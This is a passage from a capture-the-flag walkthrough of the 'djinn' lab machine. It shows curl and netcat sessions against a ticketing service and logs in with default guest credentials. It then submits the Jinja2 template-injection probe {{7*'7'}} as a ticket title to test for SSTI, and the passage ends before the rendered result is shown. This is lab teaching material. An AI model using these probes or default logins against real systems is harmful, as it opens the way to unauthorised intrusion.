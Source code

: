 We confirm that the ticket has been added to the tickets list:

~~~
</html>kali@kali:~$ curl -s http://djinn.box:5000/ | html2text 

**** This ticketing software is under development, if you find any issue please
report it to admin ****
# ID   Title                                              Status      Link
1 2792 Add authentication to the ticket managment system. open        link
2 4567 Remove default user guest from the ticket creation open        link
       service.
3 8345 Error while updating postgres queries              In progress link
4 7723 Jack will temporarily handling the risk limit UI   open        link
5 2984 Update the user information                        In progress link
6 2973 Complete the honeypot project                      In progress link
7 2366 test                                               open        link
~~~

## Exploit Djinja2 template

Searching for Werkzeug exploits on the Internet led me to [this interesting post](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) that says:

*"You can try to probe `{{7*'7'}}` to see if the target is vulnerable. It would result in `49` in Twig, `7777777` in Jinja2, and neither if no template language is in use"*

Let's try by ourselves:

~~~
kali@kali:~$ nc djinn.box 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open     
Title: {{7*'7'}}
Description: {{7*'7'}}
> exit
kali@kali:~$ curl -s http://djinn.box:5000/ | html2text 

**** This ticketing software is under development, if you find any issue please
report it to admin ****
# ID   Title                                              Status      Link
1 2792 Add authentication to the ticket managment system. open        link
2 4567 Remove default user guest from the ticket creation open        link
       service.
3 8345 Error while updating postgres queries              In progress link
4 7723 Jack will temporarily handling the risk limit UI   open        link
5 2984 Update the user information                        In progress link
6 2973 Complete the honeypot project                      In progress link
7 2366 test                                               open        link
8 1480 {{7*'7'}}                                          open        link
~~~
